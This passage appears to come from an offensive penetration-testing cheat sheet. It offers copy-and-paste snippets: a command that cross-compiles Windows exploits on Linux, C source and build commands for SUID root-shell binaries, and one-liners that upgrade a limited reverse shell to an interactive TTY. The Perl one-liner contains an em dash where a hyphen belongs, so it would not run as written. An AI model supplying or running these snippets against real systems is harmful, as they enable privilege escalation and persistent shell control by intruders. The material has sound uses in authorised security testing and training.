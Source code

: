  <p>Build / compile windows exploits on Linux, resulting in a .exe file.</p> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe</td> 
 <td>Compile windows .exe on Linux</td> 
 </tr> 
 </tbody> 
 </table> 
 <h2>SUID Binary</h2> 
 <p>Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.</p> 
 <p>below are some quick copy and pate examples for various shells:</p> 
 <h3>SUID C Shell for /bin/bash</h3> 
 <figure> 
 <pre>int main(void){ 
        setresuid(0, 0, 0); 
        system("/bin/bash"); 
 }</pre> 
 </figure> 
 <h3>SUID C Shell for /bin/sh</h3> 
 <figure> 
 <pre>int main(void){ 
        setresuid(0, 0, 0); 
        system("/bin/sh"); 
 }</pre> 
 </figure> 
 <h3>Building the SUID Shell binary</h3> 
 <figure> 
 <pre>gcc -o suid suid.c</pre> 
 </figure> 
 <p>For 32 bit:</p> 
 <figure> 
 <pre>gcc -m32 -o suid suid.c</pre> 
 </figure> 
 <h2>TTY Shells</h2> 
 <p>Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.</p> 
 <h3>Python TTY Shell Trick</h3> 
 <figure> 
 <pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre> 
 </figure> 
 <figure> 
 <pre>echo os.system('/bin/bash')</pre> 
 </figure> 
 <h3>Spawn Interactive sh shell</h3> 
 <figure> 
 <pre>/bin/sh -i</pre> 
 </figure> 
 <h3>Spawn Perl TTY Shell</h3> 
 <figure> 
 <pre>exec "/bin/sh"; 
 perl —e 'exec "/bin/sh";'</pre> 
 </figure> 
 <h3>Spawn Ruby TTY Shell</h3> 
 <figure> 
 <pre>exec "/bin/sh"</pre> 
 </figure> 